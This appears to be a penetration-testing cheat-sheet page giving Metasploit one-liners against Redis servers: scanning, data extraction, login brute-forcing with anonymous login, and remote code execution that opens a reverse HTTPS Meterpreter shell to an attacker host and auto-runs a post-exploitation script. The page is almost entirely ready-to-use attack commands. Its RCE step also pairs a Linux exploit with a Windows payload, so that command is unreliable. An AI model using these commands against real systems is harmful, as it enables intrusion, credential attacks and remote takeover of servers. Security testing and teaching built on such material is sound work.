 #### [Metasploit-Framework](https://www.metasploit.com/)

{% hint style="info" %}
Scan with Metasploit
{% endhint %}

```bash
msfconsole -qx "use auxiliary/scanner/redis/redis_server;
    set RHOSTS $TARGET;
    run;
    exit"
```

{% hint style="info" %}
Misconfiguration Check
{% endhint %}

```bash
msfconsole -qx "use auxiliary/gather/redis_extractor;
    set RHOSTS $TARGET;
    run;
    exit"
```

{% hint style="info" %}
Brute Force
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/redis/redis_login;
    set RHOSTS $TARGET;
    set ANONYMOUS_LOGIN true;
    set STOP_ON_SUCCESS true;
    set THREADS 10;
    run -j"
```

#### Exploitation

{% hint style="info" %}
Remote Code Execution
{% endhint %}

```bash
msfconsole -qx "
    use exploit/linux/redis/redis_replication_cmd_exec;
    set PAYLOAD windows/x64/meterpreter/reverse_https;
    set RHOSTS $TARGET;
    set LHOST $NGHOST;
    set LPORT 443;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set HandlerSSLCert $CERT;
    set StagerVerifySSLCert true;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
    run -j"
```
